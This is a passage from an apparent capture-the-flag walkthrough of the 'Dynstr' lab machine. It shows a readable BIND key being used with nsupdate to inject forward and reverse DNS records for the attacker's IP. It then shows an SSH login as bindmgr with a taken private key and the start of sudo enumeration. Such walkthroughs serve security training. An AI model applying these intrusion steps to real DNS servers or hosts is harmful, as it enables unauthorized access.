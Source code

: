 

This second line defines how the `dyna.htb` zone (or domain) is updated.
The `update-policy` says that it will be granted with access to the
`infra-key` file, which included in the first line. I also have
permission to read it as www-data:



    www-data@dynstr:/etc/bind$ ls -l infra.key
    -rw-r--r-- 1 root bind 101 Mar 15 20:44 infra.key



### Update DNS

I have all the pieces I need to update the DNS at this point. I could
look at the web code as an example of how to make the `nsupdate` call
(I'll dig into that in [Beyond Root](#no-ip-api)), or look at the [man
page](https://linux.die.net/man/8/nsupdate). I'll set it so that both
the A record for 0xdf.infra.dyna.htb points at my IP, and that the PTR
record for 8.14.10.10.in-addr.arpa points at 0xdf.infra.dyna.htb (to
satisfy the reverse lookup of the IP):



    www-data@dynstr:/etc/bind$ nsupdate -k infra.key 
    > server 127.0.0.1
    > zone dyna.htb
    > update add 0xdf.infra.dyna.htb 30 IN A 10.10.14.8
    > send
    > zone 10.in-addr.arpa
    > update add 8.14.10.10.in-addr.arpa 30 IN PTR 0xdf.infra.dyna.htb
    > send



### SSH

With those records set, I can SSH as bindmgr:



    oxdf@parrot$ ssh -i ~/keys/dynstr-bindmgr bindmgr@10.10.10.244
    Last login: Sun Jun 13 12:13:42 2021 from 90e30693769f4068a9ffb5a187745264.infra.dyna.htb
    bindmgr@dynstr:~$ 



## Shell as root

### Enumeration

`sudo -l` gives something interesting right away:



    bindmgr@dynstr:~$ sudo -l
    sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
    Matching Defaults entries for bindmgr on dynstr:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
